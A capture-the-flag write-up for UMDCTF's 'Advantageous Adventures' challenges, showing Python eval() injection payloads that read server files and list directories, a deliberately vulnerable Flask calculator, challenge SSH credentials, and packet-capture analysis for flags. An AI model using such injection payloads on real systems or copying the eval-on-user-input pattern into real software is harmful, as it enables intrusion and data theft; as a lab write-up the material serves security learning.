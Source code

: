 # Advantageous Adventures

## First Bloods :\)

Managed to do up to AA-2 before I had to sleep as I had work the next day.

![](../.gitbook/assets/b03306ada90443c2ae357adcc8b16b5b.png)

Woke up to solve AA-3 and AA-4!

![](../.gitbook/assets/a083aabdd002476dbc3aba429204e85c.png)

## AA 1

The page offers a bunch of math calculators. Testing some simple payloads revealed that the backend was using Python's `eval()` to generate the results.

![](../.gitbook/assets/e73984aeadda4448aaeec2efc121b28b.png)

Now, if we are going to read a flag, we are most probably going to be dealing with strings. If we are dealing with strings, one of the math operators is more useful than others: the `+` operator is the concatenation operator in Python.

![](../.gitbook/assets/583642d23275420490ec56191729782b.png)

Using the simple payload `val1=''&val2=open('flag.txt').read()`, we can make the server return the contents of `flag.txt`.

![](../.gitbook/assets/cb85fcac00f44b0ea03ed3c66f31a9a7.png)

## AA 2

Did you get what you needed from Advantageous Adventures 1? You'll need a username and password from the first challenge to proceed. I heard that the Advantageous Adventures team was using what you received to communicate on a low level. Can you figure out how they're talking?

All info for this challenge must be derived from Advantageous Adventures 1.

### Solution

We can import the os module.

`val1=''&val2=str(__import__('os').listdir())`

The result: `['__pycache__', 'static', 'secret_script.py', 'secret_info', 'flag.txt', 'app.py', 'README.md', 'templates', 'Dockerfile']`

![](../.gitbook/assets/141a801238ba4a63863bf4e5a93ea1d2.png)

#### secret\_script.py

`val1=''&val2=open('secret_script.py').read()`

```python
from scapy.all import rdpcap, RadioTap, wrpcap

# run this on the file you get during the second challenge
# you don't need to understand all of it

packets = rdpcap('in.pcap')
fixed_packets = []

if len(packets) < 2153:
    # must have at least 2153 packets
    exit(1)

for packet in packets:
    # I know eval is unsafe but stackoverflow is down when script was created
    packet_bytes = eval(str(packet))
    fixed_packet_bytes = packet_bytes[14:]
    fixed_packets.append(RadioTap(fixed_packet_bytes))
wrpcap("out.pcap", fixed_packets)
```

#### secret\_info

```text
Make sure not to leak this info, needs to be super secret:
ip: chals1.umdctf.io
port: 3001
username: user
password: w0w_th3s3_@dv3ntur3s_r3@lly_@r3_outr@g30u5
wifi password: whose_adventure
```

#### app.py

```python
from flask import Flask, request, render_template
app = Flask(__name__)

@app.route('/')
def start():
    return render_template("home.html")

@app.route('/xor_calculator')
def xor_calculator():
    return render_template("calculator.html", calculate_type="xor")

@app.route('/add_calculator')
def add_calculator():
    return render_template("calculator.html", calculate_type="add")

@app.route('/mult_calculator')
def mult_calculator():
    return render_template("calculator.html", calculate_type="mult")

@app.route('/xor', methods=['POST'])
def xor():
    return calculate(0)

@app.route('/add', methods=['POST'])
def add():
    return calculate(1)

@app.route('/mult', methods=['POST'])
def mult():
    return calculate(2)


def calculate(operation_index):
    try:
        val1 = request.form['val1']
        val2 = request.form['val2']
        print(val1)
        print(val2)
        print(operation_index)
        if operation_index == 0:
            return str(eval(val1) ^ eval(val2))
        elif operation_index == 1:
            return str(eval(val1) + eval(val2))
        else:
            return str(eval(val1) * eval(val2))
    except Exception as e:
        print(e)
        return "An error occured"
```

We can SSH into the server using the credentials obtained above: `ssh user@chals1.umdctf.io -p 3001`

```text
user@b54d03d75f2b:/$ find / -name *pcap 2>/dev/null
/sys/bus/spi/drivers/ezx-pcap
/usr/bin/dumpcap
/usr/bin/text2pcap
```

We can use `dumpcap` to capture the network traffic.

Capture 2000+ packets on the WiFi interface: `dumpcap -i wlo2 -P`

After running the `secret_script.py`, transfer the `out.pcap` out using `scp`:

`scp -P 3001 user@chals1.umdctf.io:/home/ubuntu/out.pcap .`

Open in Wireshark, and we have our flag!

![](../.gitbook/assets/c76294961f9e410c9ff3684ad582d550.png)

### AA 3

In Wireshark, we can decrypt the wireless traffic with the WiFi password found previously. This reveals another flag hidden in the data of the subsequent packets.

![](../.gitbook/assets/5c328112b26d47c5a3cc58d54294e497.png)

### AA 4

Shortly below the above flag, we can see lots of packets with repeated numbers, starting from `0000...`, `1111...`, `2222...`, and so on. The number _itself_ probably doesn't mean much - we're looking for a string. But the length \(i.e. number of repeated numbers\) varies for each packet. This could be one way to encode data.

![](../.gitbook/assets/0f971550f99c42928a8074e77759f8d8.png)

In Wireshark: Export packets as JSON. Then we can run a script to extract the flag:

```python
import json

data = json.load(open('capture.json'))

result = ''
i = 1    # ith packet
j = 0    # number = 1

for packet in data:

    if i < 500:
        i += 1
        continue

    packet_data = packet['_source']['layers']['data']
    char = chr((int(packet_data['data.len']) + 4 ) // len(str(j)))

    if not result.endswith(char):
        print(result, j)
        result += char
        j += 1

    i += 1

    if i > 2310:
        break

print(result)
```

![](../.gitbook/assets/12222e1999df4de080daf0015db90953.png)

